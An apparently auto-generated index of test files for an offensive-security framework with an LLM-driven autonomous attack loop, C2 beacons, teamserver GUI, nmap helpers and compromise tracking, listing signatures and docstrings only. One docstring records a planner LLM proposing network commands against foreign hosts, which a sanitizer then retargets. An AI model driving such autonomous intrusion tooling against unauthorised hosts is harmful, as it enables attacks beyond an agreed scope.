**Path:** `tests/test_lazy_streaming.py`
**File Doc:** *Token-level streaming: factory, pool deltas, agent reassembly.  The stream stage is exercised with stubbed backends so no network is touched; the agent test drives the real ``AgentRunner._stream_call`` with an OpenAI-compatible chunk script, including split tool calls.*

**Classes:**
- `_Backend` (line 24) `class _Backend`
- `_Broken` (line 37) `class _Broken`
- `_Delta` (line 100) `class _Delta`
- `_Completions` (line 106) `class _Completions`

**Functions:**
- `_sandbox` (line 13) `def _sandbox(tmp_path, monkeypatch)`
- `test_stream_complete_collects_deltas_and_falls_back` (line 20) `def test_stream_complete_collects_deltas_and_falls_back(monkeypatch)` - *Chunks flow to the sink; error chunks fall back to complete().*
- `test_pool_forwards_deltas_when_stage_on` (line 48) `def test_pool_forwards_deltas_when_stage_on(tmp_path, monkeypatch)` - *LlmPool routes through stream_complete and forwards every delta.*
- `test_pool_stays_unstreamed_when_stage_off` (line 72) `def test_pool_stays_unstreamed_when_stage_off(tmp_path, monkeypatch)` - *With the stage off the pool uses the plain completion path.*
- `test_agent_streaming_reassembles_tool_calls_and_reports_deltas` (line 96) `def test_agent_streaming_reassembles_tool_calls_and_reports_deltas()` - *The agent stream call rebuilds split tool calls and emits deltas.*
- `_stream` (line 57) `def _stream(model, prompt, max_tokens, on_delta)`
- `_stream` (line 80) `def _stream()`
- `_plain` (line 84) `def _plain()`

**Methods:**
- `stream_generate` (line 27) `def stream_generate(self, prompt)`
- `stream_generate` (line 40) `def stream_generate(self, prompt)`
- `__init__` (line 101) `def __init__(self, content, reasoning, tool_calls)`
- `__init__` (line 107) `def __init__(self)`
- `create` (line 110) `def create(self)`

#### `test_lazy_worker_safety.py`
**Path:** `tests/test_lazy_worker_safety.py`
**File Doc:** *Worker safety: step sanitizer, task-wide dedupe, sudo skip, worker pool.  These tests pin the behaviors the live engagement surfaced: the planner LLM proposing target-less or foreign-host network commands, the same verb replayed under a new intent, interactive sudo inside an unattended loop, and one-shot workers losing their shells between rounds.*

**Functions:**
- `payload_store` (line 15) `def payload_store(tmp_path, monkeypatch)` - *Sandbox the lazy store and orchestrator config for a round.*
- `_engine` (line 28) `def _engine(tmp_path, monkeypatch)`
- `_worker` (line 37) `def _worker(loop, engine, task_id, name)`
- `test_sanitizer_retargets_and_repairs_commands` (line 53) `def test_sanitizer_retargets_and_repairs_commands(tmp_path, monkeypatch)` - *Foreign hosts move to the target; target-less scans gain it.*
- `test_worker_dedupes_commands_already_executed_for_task` (line 70) `def test_worker_dedupes_commands_already_executed_for_task(tmp_path, monkeypatch)` - *A command run under intent #1 is never replayed under intent #2.*
- `test_worker_skips_sudo_when_unavailable` (line 88) `def test_worker_skips_sudo_when_unavailable(tmp_path, monkeypatch)` - *A tool failing on non-interactive sudo is skipped, not an error.*
- `test_run_round_reuses_worker_pool` (line 105) `def test_run_round_reuses_worker_pool(payload_store, monkeypatch)` - *A supplied pool keeps the same workers and shells across rounds.*
- `test_needs_sudo_detects_wrappers_and_segments` (line 140) `def test_needs_sudo_detects_wrappers_and_segments(tmp_path, monkeypatch)` - *Alias and wrapper forms hide sudo; the detector sees through them.*
- `test_worker_skips_sudo_alias_before_execution` (line 153) `def test_worker_skips_sudo_alias_before_execution(tmp_path, monkeypatch)` - *The lsof alias expands to sudo; it is skipped before any execution.*
- `test_worker_runs_sudo_alias_when_passwordless_available` (line 175) `def test_worker_runs_sudo_alias_when_passwordless_available(tmp_path, monkeypatch)` - *With working passwordless sudo the command executes normally.*
- `executor` (line 95) `def executor(command)`
- `_fake_execute` (line 122) `def _fake_execute(self, node, executor, timeout_sec)`

#### `test_lazygui_backend.py`
**Path:** `tests/test_lazygui_backend.py`
**File Doc:** *Tests for lazygui backend services.  Covers Backend, TeamserverBackend, TeamserverCredentials, BackendStatus, BackendDescriptor, and backend signal contracts.*

**Classes:**
- `TestBackendDescriptor` (line 26) `class TestBackendDescriptor` - *BackendDescriptor is a read-only identifier for backends.*
- `TestBackendStatus` (line 41) `class TestBackendStatus` - *BackendStatus enum lifecycle states.*
- `TestTeamserverCredentials` (line 52) `class TestTeamserverCredentials` - *TeamserverCredentials immutable connection params.*
- `TestBackendSignals` (line 77) `class TestBackendSignals` - *Backend emits Qt signals with correct types.*
- `ConcreteBackend` (line 151) `class ConcreteBackend(Backend)` - *Minimal concrete backend for testing the abstract contract.*
- `TestTeamserverBackendConstruction` (line 173) `class TestTeamserverBackendConstruction` - *TeamserverBackend can be constructed with valid credentials.*
- `TestTeamserverPayloadParsing` (line 206) `class TestTeamserverPayloadParsing` - *TeamserverBackend correctly parses API payloads.*
- `TestTeamserverBackendLifecycle` (line 302) `class TestTeamserverBackendLifecycle` - *TeamserverBackend start/stop contract.*
- `TestTopologyDataContract` (line 328) `class TestTopologyDataContract` - *Topology construction and comparison.*
- `TestTopologyBuilderFromPayload` (line 344) `class TestTopologyBuilderFromPayload` - *Graph topology is built from /api/data payload fields.*

**Methods:**
- `test_construction` (line 29) `def test_construction(self)`
- `test_immutable` (line 35) `def test_immutable(self)`
- `test_values` (line 44) `def test_values(self)`
- `test_construction` (line 55) `def test_construction(self)`
- `test_default_tls` (line 67) `def test_default_tls(self)`
- `test_immutable` (line 71) `def test_immutable(self)`
- `test_signals_exist` (line 80) `def test_signals_exist(self)`
- `test_initial_status_is_disconnected` (line 93) `def test_initial_status_is_disconnected(self)`
- `test_status_transition` (line 97) `def test_status_transition(self)`
- `test_status_no_duplicate_emit` (line 104) `def test_status_no_duplicate_emit(self)`
- `test_descriptor_read_only` (line 113) `def test_descriptor_read_only(self)`
- `test_known_sessions_defaults` (line 118) `def test_known_sessions_defaults(self)`
- `test_known_topology_default` (line 123) `def test_known_topology_default(self)`
- `test_known_campaigns_default` (line 129) `def test_known_campaigns_default(self)`
- `test_world_model_default` (line 133) `def test_world_model_default(self)`
- `test_session_state_default` (line 138) `def test_session_state_default(self)`
- `_make_backend` (line 146) `def _make_backend()`
- `start` (line 154) `def start(self)`
- `stop` (line 157) `def stop(self)`
- `send_command` (line 160) `def send_command(self, command, target_session)`
- `refresh` (line 163) `def refresh(self)`
- `resize_terminal` (line 166) `def resize_terminal(self, columns, rows)`
- `feed_terminal_input` (line 169) `def feed_terminal_input(self, data)`
- `test_construction` (line 176) `def test_construction(self)`
- `test_construction_with_parent` (line 184) `def test_construction_with_parent(self)`
- `test_build_url` (line 191) `def test_build_url(self)`
- `test_build_url_no_trailing_slash` (line 198) `def test_build_url_no_trailing_slash(self)`
- `test_update_from_empty_payload` (line 209) `def test_update_from_empty_payload(self)`
- `test_non_mapping_payload` (line 216) `def test_non_mapping_payload(self)`
- `test_parse_graph_nodes_from_valid_payload` (line 223) `def test_parse_graph_nodes_from_valid_payload(self)`
- `test_parse_graph_edges_from_valid_payload` (line 242) `def test_parse_graph_edges_from_valid_payload(self)`
- `test_parse_empty_graph_payload` (line 259) `def test_parse_empty_graph_payload(self)`
- `test_update_operator` (line 267) `def test_update_operator(self)`
- `test_update_operator_no_username` (line 285) `def test_update_operator_no_username(self)`
- `test_update_sessions_empty` (line 294) `def test_update_sessions_empty(self)`
- `test_stop_without_start` (line 305) `def test_stop_without_start(self)`
- `test_stop_sets_disconnected` (line 312) `def test_stop_sets_disconnected(self)`
- `test_send_command_does_not_raise` (line 321) `def test_send_command_does_not_raise(self)`
- `test_construct_and_compare` (line 331) `def test_construct_and_compare(self)`
- `test_none_converted` (line 338) `def test_none_converted(self)`
- `make_backend` (line 347) `def make_backend(self)`
- `test_builds_c2_node` (line 354) `def test_builds_c2_node(self)`
- `test_builds_beacon_nodes` (line 362) `def test_builds_beacon_nodes(self)`
- `test_builds_edges_c2_to_beacon` (line 379) `def test_builds_edges_c2_to_beacon(self)`
- `test_builds_host_nodes_from_discovered` (line 396) `def test_builds_host_nodes_from_discovered(self)`
- `test_builds_port_nodes` (line 412) `def test_builds_port_nodes(self)`
- `test_builds_connected_hosts` (line 428) `def test_builds_connected_hosts(self)`
- `test_topology_emitted_on_change` (line 439) `def test_topology_emitted_on_change(self)`
- `test_topology_not_emitted_on_no_change` (line 455) `def test_topology_not_emitted_on_no_change(self)`

#### `test_lazygui_graph_widget.py`
**Path:** `tests/test_lazygui_graph_widget.py`
**File Doc:** *Tests for lazygui graph widget contracts.  Covers GraphNodeItem, GraphEdgeItem, GraphScene, GraphView, topology rendering and force layout behaviour.*

**Classes:**
- `TestColorResolution` (line 43) `class TestColorResolution` - *Node colour resolution rules.*
- `TestRadiusResolution` (line 79) `class TestRadiusResolution` - *Node radius resolution rules.*
- `TestColorMap` (line 106) `class TestColorMap` - *Color map contains all required node type colours.*
- `TestGraphNodeItem` (line 114) `class TestGraphNodeItem` - *GraphNodeItem renders a graph node with label and callbacks.*
- `TestGraphEdgeItem` (line 181) `class TestGraphEdgeItem` - *GraphEdgeItem connects two node items.*
- `TestGraphScene` (line 212) `class TestGraphScene` - *GraphScene manages nodes, edges and force layout.*
- `TestGraphView` (line 307) `class TestGraphView` - *GraphView wraps scene with zoom, pan and physics.*
- `TestGraphViewWithDatabaseFixture` (line 333) `class TestGraphViewWithDatabaseFixture` - *Full integration: topology -> view -> scene.*
- `TestGraphNodeItemWithIcon` (line 360) `class TestGraphNodeItemWithIcon` - *GraphNodeItem renders icons correctly.*

**Functions:**
- `_get_qapp` (line 36) `def _get_qapp()`
- `_cb` (line 149) `def _cb(nid)`
- `_cb` (line 163) `def _cb(nid, pos)`
- `_capture` (line 296) `def _capture(nid, pos)`

**Methods:**
- `test_c2_color` (line 46) `def test_c2_color(self)`
- `test_beacon_color` (line 50) `def test_beacon_color(self)`
- `test_host_color` (line 54) `def test_host_color(self)`
- `test_port_color` (line 58) `def test_port_color(self)`
- `test_windows_os_hint` (line 62) `def test_windows_os_hint(self)`
- `test_linux_os_hint` (line 66) `def test_linux_os_hint(self)`
- `test_macos_os_hint` (line 70) `def test_macos_os_hint(self)`
- `test_unknown_default` (line 74) `def test_unknown_default(self)`
- `test_c2_radius` (line 82) `def test_c2_radius(self)`
- `test_beacon_radius` (line 86) `def test_beacon_radius(self)`
- `test_host_radius` (line 91) `def test_host_radius(self)`
- `test_port_radius` (line 96) `def test_port_radius(self)`
- `test_default_radius` (line 101) `def test_default_radius(self)`
- `test_all_keys_present` (line 109) `def test_all_keys_present(self)`
- `test_construction` (line 117) `def test_construction(self)`
- `test_identifiers` (line 127) `def test_identifiers(self)`
- `test_selection_behaviour` (line 134) `def test_selection_behaviour(self)`
- `test_callback_on_selected` (line 144) `def test_callback_on_selected(self)`
- `test_callback_on_context_menu` (line 157) `def test_callback_on_context_menu(self)`
- `test_node_without_callbacks_does_not_raise` (line 173) `def test_node_without_callbacks_does_not_raise(self)`
- `test_construction_with_nodes` (line 184) `def test_construction_with_nodes(self)`
- `test_update_position` (line 198) `def test_update_position(self)`
- `test_construction` (line 215) `def test_construction(self)`
- `test_set_topology_with_data` (line 221) `def test_set_topology_with_data(self)`
- `test_set_empty_topology` (line 235) `def test_set_empty_topology(self)`
- `test_force_layout_single_node` (line 243) `def test_force_layout_single_node(self)`
- `test_selected_node_id_none_when_empty` (line 252) `def test_selected_node_id_none_when_empty(self)`
- `test_physics_completion` (line 258) `def test_physics_completion(self)`
- `test_physics_stops_without_nodes` (line 273) `def test_physics_stops_without_nodes(self)`
- `test_node_selected_signal` (line 280) `def test_node_selected_signal(self)`
- `test_node_context_menu_signal` (line 289) `def test_node_context_menu_signal(self)`
- `test_construction` (line 310) `def test_construction(self)`
- `test_set_topology` (line 316) `def test_set_topology(self)`
- `test_fit_to_content` (line 325) `def test_fit_to_content(self)`
- `test_full_pipeline` (line 336) `def test_full_pipeline(self)`
- `test_node_with_icon` (line 363) `def test_node_with_icon(self)`
- `test_hover_behavior` (line 369) `def test_hover_behavior(self)`
- `test_movable_flag` (line 375) `def test_movable_flag(self)`

#### `test_lazygui_models.py`
**Path:** `tests/test_lazygui_models.py`
**File Doc:** *Tests for lazygui domain models.  Covers GraphNode, GraphEdge, Topology, BeaconResult, DashboardPayload, CampaignSummary, EventRecord, Session, Listener, Operator, and their behavioural contracts.*

**Classes:**
- `TestGraphNode` (line 30) `class TestGraphNode` - *GraphNode contract: identifier, label, type, colour and metadata.*
- `TestGraphEdge` (line 74) `class TestGraphEdge` - *GraphEdge contract: source, target, label, type and colour.*
- `TestTopology` (line 105) `class TestTopology` - *Topology contract: collection of nodes and edges.*
- `TestBeaconResult` (line 143) `class TestBeaconResult` - *BeaconResult contract: command execution result from a beacon.*
- `TestDashboardPayload` (line 196) `class TestDashboardPayload` - *DashboardPayload contract: aggregated dashboard snapshot.*
- `TestCampaignSummary` (line 221) `class TestCampaignSummary` - *CampaignSummary contract: campaign status from backend.*
- `TestEventRecord` (line 256) `class TestEventRecord` - *EventRecord contract: timestamped log entry.*
- `TestSessionModel` (line 280) `class TestSessionModel` - *Session model contract.*
- `TestBackendKind` (line 303) `class TestBackendKind` - *BackendKind enum contract.*
- `TestEventLevel` (line 314) `class TestEventLevel` - *EventLevel enum contract.*

**Methods:**
- `test_minimal_construction` (line 33) `def test_minimal_construction(self)`
- `test_full_construction` (line 41) `def test_full_construction(self)`
- `test_default_metadata` (line 56) `def test_default_metadata(self)`
- `test_equality` (line 61) `def test_equality(self)`
- `test_immutable` (line 68) `def test_immutable(self)`
- `test_construction` (line 77) `def test_construction(self)`
- `test_defaults` (line 91) `def test_defaults(self)`
- `test_equality` (line 97) `def test_equality(self)`
- `test_empty_topology` (line 108) `def test_empty_topology(self)`
- `test_empty_classmethod` (line 115) `def test_empty_classmethod(self)`
- `test_populated_topology` (line 120) `def test_populated_topology(self)`
- `test_equality` (line 130) `def test_equality(self)`
- `test_empty_list_keywords` (line 137) `def test_empty_list_keywords(self)`
- `test_minimal_construction` (line 146) `def test_minimal_construction(self)`
- `test_full_construction` (line 154) `def test_full_construction(self)`
- `test_equality` (line 174) `def test_equality(self)`
- `test_empty_fields_default_to_empty_string` (line 181) `def test_empty_fields_default_to_empty_string(self)`
- `test_defaults` (line 199) `def test_defaults(self)`
- `test_populated` (line 206) `def test_populated(self)`
- `test_equality` (line 213) `def test_equality(self)`
- `test_defaults` (line 224) `def test_defaults(self)`
- `test_with_counts` (line 234) `def test_with_counts(self)`
- `test_equality` (line 248) `def test_equality(self)`
- `test_now_uses_utc` (line 259) `def test_now_uses_utc(self)`
- `test_fields` (line 263) `def test_fields(self)`
- `test_numeric_levels` (line 271) `def test_numeric_levels(self)`
- `test_construction` (line 283) `def test_construction(self)`
- `test_metadata_default` (line 298) `def test_metadata_default(self)`
- `test_values` (line 306) `def test_values(self)`
- `test_str_compat` (line 310) `def test_str_compat(self)`
- `test_order` (line 317) `def test_order(self)`
- `test_compare` (line 322) `def test_compare(self)`

#### `test_lazynmap_post.py`
**Path:** `tests/test_lazynmap_post.py`
**File Doc:** *Spec coverage for :mod:`cli.lazynmap_post`.  The post-scan helper composes three side effects (plan, world model, event). Each test isolates one of them so a regression points to the specific responsibility. Fixtures touch only ``tmp_path``.*

**Classes:**
- `_ConsoleRecorder` (line 81) `class _ConsoleRecorder`
- `PostScanOutputSpec` (line 88) `class PostScanOutputSpec(TestCase)` - *Spec 1 — successful run writes plan, world model and event.*
- `PostScanToggleSpec` (line 186) `class PostScanToggleSpec(TestCase)` - *Spec 2 — operator toggle short-circuits every side effect.*
- `PostScanResilienceSpec` (line 228) `class PostScanResilienceSpec(TestCase)` - *Spec 3 — failures inside one branch never break the others.*

**Functions:**
- `_seed_addon` (line 37) `def _seed_addon(addons)`
- `_seed_environment` (line 59) `def _seed_environment(tmp)`
- `_make_engine` (line 71) `def _make_engine(sessions, addons, tools)`
- `_broken_factory` (line 235) `def _broken_factory()`

**Methods:**
- `print` (line 84) `def print(self, line)`
- `test_writes_plan_world_model_and_event` (line 91) `def test_writes_plan_world_model_and_event(self)`
- `test_world_model_is_merged_not_overwritten` (line 117) `def test_world_model_is_merged_not_overwritten(self)`
- `test_event_record_carries_target_and_counts` (line 142) `def test_event_record_carries_target_and_counts(self)`
- `test_console_receives_plan_preview_lines` (line 166) `def test_console_receives_plan_preview_lines(self)`
- `test_disabled_payload_skips_all_writes` (line 189) `def test_disabled_payload_skips_all_writes(self)`
- `test_string_falsy_toggle_is_respected` (line 210) `def test_string_falsy_toggle_is_respected(self)`
- `test_engine_failure_still_emits_event_and_updates_world_model` (line 231) `def test_engine_failure_still_emits_event_and_updates_world_model(self)`

#### `test_lazynmap_sudo_branches.py`
**Path:** `tests/test_lazynmap_sudo_branches.py`
**File Doc:** *LazyNmap sudo branches: unattended abort vs interactive prompt.  Regression pin for the live incident where an interactive ``nmap`` run aborted because the script could not see a terminal (the CLI captures output through pipes, so ``[ -t 1 ]`` is false). The branch must instead key on ``LAZYOWN_AUTONOMOUS=1``, which only the loop sets.*

**Functions:**
- `_fake_bin` (line 18) `def _fake_bin(tmp_path)` - *Build a PATH dir with a failing sudo and a silent gum.*
- `_run_script` (line 31) `def _run_script(tmp_path, extra_env)`
- `test_autonomous_mode_aborts_without_passwordless_sudo` (line 48) `def test_autonomous_mode_aborts_without_passwordless_sudo(tmp_path)` - *Unattended runs refuse to prompt: exit 3 with a clear message.*
- `test_interactive_mode_keeps_the_sudo_prompt_path` (line 55) `def test_interactive_mode_keeps_the_sudo_prompt_path(tmp_path)` - *Without the autonomous flag the script tries the password flow.*

#### `test_legacy_shims.py`
**Path:** `tests/test_legacy_shims.py`
**File Doc:** *Legacy shim contract plus referenced-script existence.  SDD contract: ``modules/legacy/*.py`` must stay symlinks into ``contrib/legacy/`` (the documented shim design), never byte-copies that can drift. Separately, every ``python3 modules/...py`` script path embedded in migrated commands must resolve to a real file, so commands like ``seo`` fail loudly in tests instead of at 2am during an engagement.*

**Classes:**
- `TestLegacyShims` (line 23) `class TestLegacyShims`
- `TestReferencedScriptsExist` (line 43) `class TestReferencedScriptsExist`

**Methods:**
- `test_no_regular_file_clones` (line 24) `def test_no_regular_file_clones(self)`
- `test_symlinks_resolve_into_contrib` (line 32) `def test_symlinks_resolve_into_contrib(self)`
- `test_exploit_migrated_script_paths` (line 44) `def test_exploit_migrated_script_paths(self)`

#### `test_lesson_ingestor.py`
**Path:** `tests/test_lesson_ingestor.py`
**File Doc:** *Tests for modules/lesson_ingestor.py.*

**Classes:**
- `TestLessonLearned` (line 15) `class TestLessonLearned`
- `TestLessonIngestor` (line 35) `class TestLessonIngestor`

**Methods:**
- `test_from_dict` (line 16) `def test_from_dict(self)`
- `test_from_dict_minimal` (line 29) `def test_from_dict_minimal(self)`
- `test_expert_mapping` (line 36) `def test_expert_mapping(self)`
- `test_ingest_with_mock_backends` (line 43) `def test_ingest_with_mock_backends(self, tmp_path)`
- `test_ingest_unmapped_topic` (line 62) `def test_ingest_unmapped_topic(self, tmp_path)`
- `test_ingest_no_backends` (line 79) `def test_ingest_no_backends(self, monkeypatch)`
- `test_load_from_file` (line 99) `def test_load_from_file(self, tmp_path)`
- `test_load_from_file_missing` (line 119) `def test_load_from_file_missing(self, tmp_path)`
- `test_ingest_all` (line 124) `def test_ingest_all(self, tmp_path)`

#### `test_lint_quality.py`
**Path:** `tests/test_lint_quality.py`
**File Doc:** *Lint quality gate.  Runs ``ruff check`` and ``ruff format --check`` against every Python file that the active tier has touched, and fails the test suite if any violation appears. This prevents Tier-N regressions from shipping to ``main`` even if a developer forgets to run pre-commit.  The strict set covers:  - Project packaging (``setup.py``, ``tests/test_packaging.py``). - The ``core/`` package and ``utils.py`` re-exports (``tests/test_core.py``). - The ``cli/`` package, the YAML aliases, the ``CommandSet`` registry, the ``do_assign``/``do_show`` helpers and the operator command palette (``tests/test_cli_command_sets.py``, ``tests/test_cli_assign.py``, ``tests/test_command_palette.py``). - The maintenance scripts under ``scripts/``.  New files added by future feature work must be appended to both lists below.  Tests are parametrized so a failure points at the exact file.*

**Functions:**
- `_run_ruff` (line 63) `def _run_ruff(args)` - *Invoke ``python -m ruff`` so the venv's ruff binary is always used.*
- `test_ruff_check_clean` (line 75) `def test_ruff_check_clean(target)` - *``ruff check`` must report zero issues on touched paths.*
- `test_ruff_format_clean` (line 84) `def test_ruff_format_clean(target)` - *``ruff format --check`` must report zero formatting drift on touched paths.*
- `test_lint_targets_exist` (line 94) `def test_lint_targets_exist()` - *Every entry in ``LINT_TARGETS`` must exist on disk.*
- `test_format_targets_exist` (line 100) `def test_format_targets_exist()` - *Every entry in ``FORMAT_TARGETS`` must exist on disk.*

#### `test_live_surface.py`
**Path:** `tests/test_live_surface.py`
**File Doc:** *Tests for modules/live_surface.py.  The suite drives the builder with synthetic world-model snapshots shaped like the real ``sessions/world_model.json`` (hosts with services, credentials and a network graph). It pins compromise/pulse classification, edge derivation, centrality-driven sizing and graceful degradation on empty or malformed input.*

**Functions:**
- `_world` (line 25) `def _world()`
- `test_empty_world_is_well_formed` (line 55) `def test_empty_world_is_well_formed()`
- `test_none_world_is_tolerated` (line 63) `def test_none_world_is_tolerated()`
- `test_hosts_and_services_become_nodes` (line 68) `def test_hosts_and_services_become_nodes()`
- `test_owned_host_pulses_and_counts_as_compromised` (line 79) `def test_owned_host_pulses_and_counts_as_compromised()`
- `test_host_with_credential_pulses_even_if_not_owned` (line 87) `def test_host_with_credential_pulses_even_if_not_owned()`
- `test_runs_service_edge_is_emitted_once` (line 95) `def test_runs_service_edge_is_emitted_once()`
- `test_stats_block_counts` (line 102) `def test_stats_block_counts()`
- `test_malformed_host_entry_is_skipped` (line 109) `def test_malformed_host_entry_is_skipped()`
- `test_compromised_states_constant_matches_world_model` (line 116) `def test_compromised_states_constant_matches_world_model()`

#### `test_llm_adapter_parity.py`
**Path:** `tests/test_llm_adapter_parity.py`
**File Doc:** *Parity contract tests for the self-contained Groq adapter family.  Guards the ``modules.llm_adapter`` Groq ``process_prompt_*`` implementation so it preserves legacy call semantics (client-or-None handling, file-reading variants, event/plan augmentation, knowledge persistence) without depending on ``modules.legacy.lazygptcli*``.*

**Classes:**
- `_FakeCompletions` (line 23) `class _FakeCompletions`
- `_FakeClient` (line 37) `class _FakeClient`
- `TestMissingClient` (line 65) `class TestMissingClient`
- `TestUninitializedClient` (line 88) `class TestUninitializedClient`
- `TestDirectPromptFlow` (line 94) `class TestDirectPromptFlow`
- `TestKnowledgePersistence` (line 113) `class TestKnowledgePersistence`
- `TestFileReadingVariants` (line 129) `class TestFileReadingVariants`
- `TestVulnAugmentation` (line 147) `class TestVulnAugmentation`
- `TestExports` (line 171) `class TestExports`
- `_FakeBackend` (line 191) `class _FakeBackend`
- `TestAskGeneral` (line 205) `class TestAskGeneral`

**Functions:**
- `cfg` (line 44) `def cfg(tmp_path)`
- `patched` (line 55) `def patched(monkeypatch, cfg)`
- `_write` (line 60) `def _write(path, text)`

**Methods:**
- `__init__` (line 24) `def __init__(self, content)`
- `create` (line 30) `def create(self, model, messages, max_tokens)`
- `__init__` (line 38) `def __init__(self, content)`
- `test_direct_variants_report_missing_key` (line 76) `def test_direct_variants_report_missing_key(self, patched, name)`
- `test_file_variants_report_missing_key` (line 81) `def test_file_variants_report_missing_key(self, patched, name, tmp_path)`
- `test_complete_error_handled` (line 89) `def test_complete_error_handled(self, patched)`
- `test_sends_user_message_and_returns_content` (line 95) `def test_sends_user_message_and_returns_content(self, patched)`
- `test_completion_received_single_user_message` (line 100) `def test_completion_received_single_user_message(self, patched)`
- `test_default_max_tokens_applied` (line 107) `def test_default_max_tokens_applied(self, patched)`
- `test_successful_response_is_remembered` (line 114) `def test_successful_response_is_remembered(self, patched, cfg)`
- `test_error_response_not_remembered` (line 122) `def test_error_response_not_remembered(self, patched, cfg)`
- `test_task_reads_file_content` (line 130) `def test_task_reads_file_content(self, patched, tmp_path)`
- `test_task_missing_file_returns_error` (line 137) `def test_task_missing_file_returns_error(self, patched, tmp_path)`
- `test_redop_reads_file_content` (line 141) `def test_redop_reads_file_content(self, patched, tmp_path)`
- `test_appends_event_tool_output` (line 148) `def test_appends_event_tool_output(self, patched, cfg, tmp_path)`
- `test_appends_plan_history` (line 161) `def test_appends_plan_history(self, patched, cfg, tmp_path)`
- `test_groq_family_exports_present` (line 172) `def test_groq_family_exports_present(self)`
- `test_safe_groq_client_none_without_key` (line 186) `def test_safe_groq_client_none_without_key(self)`
- `__init__` (line 192) `def __init__(self, result)`
- `complete` (line 197) `def complete(self, system, user)`
- `test_uses_configured_backend` (line 206) `def test_uses_configured_backend(self, patched, monkeypatch)`
- `test_receives_system_and_rendered_user` (line 213) `def test_receives_system_and_rendered_user(self, patched, monkeypatch)`
- `test_missing_backend_reports_error` (line 223) `def test_missing_backend_reports_error(self, patched, monkeypatch)`
- `test_backend_exception_reports_error` (line 230) `def test_backend_exception_reports_error(self, patched, monkeypatch)`
- `test_backend_error_string_not_remembered` (line 237) `def test_backend_error_string_not_remembered(self, patched, cfg, monkeypatch)`
- `test_successful_answer_remembered` (line 246) `def test_successful_answer_remembered(self, patched, cfg, monkeypatch)`
- `test_exported` (line 257) `def test_exported(self)`

#### `test_llm_budget.py`
**Path:** `tests/test_llm_budget.py`
**File Doc:** *Contract tests for the LLM budget cap.  The tests below pin the contract the spec declares. Every test verifies a single behaviour the operator can read in plain English. The tests start red until the implementation in ``core/llm_budget.py`` ships.*

**Classes:**
- `_StubBackend` (line 316) `class _StubBackend`
- `_StubBackend` (line 356) `class _StubBackend`

**Functions:**
- `tmp_sessions` (line 27) `def tmp_sessions(tmp_path, monkeypatch)` - *Redirect the session directory to a temporary path.*
- `test_budget_module_is_importable` (line 35) `def test_budget_module_is_importable()` - *The budget module lives at core/llm_budget and exports the public surface.*
- `test_budget_config_dataclass_carries_expected_fields` (line 51) `def test_budget_config_dataclass_carries_expected_fields()` - *The BudgetConfig dataclass carries every key the spec declares.*
- `test_token_estimator_counts_text_tokens` (line 71) `def test_token_estimator_counts_text_tokens()` - *The token estimator returns a positive integer for a non empty string.*
- `test_token_estimator_handles_empty_string` (line 81) `def test_token_estimator_handles_empty_string()` - *The token estimator returns zero for the empty string.*
- `test_token_estimator_is_deterministic` (line 89) `def test_token_estimator_is_deterministic()` - *The same input yields the same count on every call.*
- `test_budget_ledger_records_a_charge` (line 99) `def test_budget_ledger_records_a_charge(tmp_path)` - *The ledger appends a record and persists the cumulative cost.*
- `test_budget_ledger_persists_to_disk` (line 116) `def test_budget_ledger_persists_to_disk(tmp_sessions)` - *The ledger survives a process restart by writing to disk.*
- `test_budget_ledger_rolls_over_at_midnight` (line 136) `def test_budget_ledger_rolls_over_at_midnight(tmp_sessions)` - *The ledger zeroes the spend when the day boundary passes.*
- `test_budget_guard_refuses_call_when_daily_budget_exhausted` (line 162) `def test_budget_guard_refuses_call_when_daily_budget_exhausted(tmp_sessions)` - *The guard raises BudgetExceeded when the daily budget is already spent.*
- `test_budget_guard_refuses_call_when_token_cap_exceeded` (line 195) `def test_budget_guard_refuses_call_when_token_cap_exceeded(tmp_sessions)` - *The guard raises BudgetExceeded when the per call token cap is exceeded.*
- `test_budget_guard_charges_a_successful_call` (line 218) `def test_budget_guard_charges_a_successful_call(tmp_sessions)` - *The guard records a charge when the call fits the budget.*
- `test_budget_guard_disabled_passes_through` (line 242) `def test_budget_guard_disabled_passes_through(tmp_sessions)` - *The guard does not record or check when the budget is disabled.*
- `test_format_budget_status_includes_spent_and_remaining` (line 265) `def test_format_budget_status_includes_spent_and_remaining(tmp_sessions)` - *The formatted status surfaces the spent and remaining amounts.*
- `test_read_budget_status_returns_dict` (line 287) `def test_read_budget_status_returns_dict(tmp_sessions)` - *The read helper returns a structured status the MCP tool can serve.*
- `test_wrap_backend_with_budget_returns_same_shape` (line 307) `def test_wrap_backend_with_budget_returns_same_shape(tmp_sessions)` - *The wrapper exposes generate, complete, and stream_generate.*
- `test_wrap_backend_with_budget_charges_call` (line 347) `def test_wrap_backend_with_budget_charges_call(tmp_sessions)` - *The wrapper records a charge when a call succeeds.*
- `test_payload_schema_recognises_budget_keys` (line 384) `def test_payload_schema_recognises_budget_keys()` - *The schema registry contains every new budget key.*
- `test_load_budget_config_reads_payload` (line 395) `def test_load_budget_config_reads_payload(tmp_sessions)` - *The loader builds a BudgetConfig from a payload mapping.*

**Methods:**
- `generate` (line 317) `def generate(self, prompt)`
- `stream_generate` (line 320) `def stream_generate(self, prompt)`
- `complete` (line 323) `def complete(self, system, user, max_tokens, temperature)`
- `generate` (line 357) `def generate(self, prompt)`
- `stream_generate` (line 360) `def stream_generate(self, prompt)`
- `complete` (line 363) `def complete(self, system, user, max_tokens, temperature)`

#### `test_llm_contract.py`
**Path:** `tests/test_llm_contract.py`
**File Doc:** *LLM subsystem contract tests.  Encodes the single-source-of-truth contract for the LLM integration layer:  - ``modules.llm_factory`` is the canonical factory for every backend. - ``modules.llm_client``, ``modules.llm_adapter``, ``modules.ai_model`` and ``modules.ai_fallback`` are the surviving support modules. - ``modules.unified_llm_client`` is dead code and must not exist.  Any regressions that reintroduce a parallel LLM entry point or break the factory surface are caught here.*

**Classes:**
- `TestDeadModuleRemoved` (line 50) `class TestDeadModuleRemoved`
- `TestLlmFactoryContract` (line 56) `class TestLlmFactoryContract`
- `TestSupportModulesContract` (line 86) `class TestSupportModulesContract`
- `TestBackendMetadataContract` (line 114) `class TestBackendMetadataContract`

**Functions:**
- `_import` (line 46) `def _import(name)`

**Methods:**
- `test_unified_llm_client_does_not_exist` (line 51) `def test_unified_llm_client_does_not_exist(self)`
- `test_factory_importable` (line 57) `def test_factory_importable(self)`
- `test_factory_exposes_public_api` (line 60) `def test_factory_exposes_public_api(self)`
- `test_supported_backends_are_canonical` (line 65) `def test_supported_backends_are_canonical(self)`
- `test_backend_constants_exposed` (line 69) `def test_backend_constants_exposed(self)`
- `test_normalize_rejects_unknown_backend` (line 75) `def test_normalize_rejects_unknown_backend(self)`
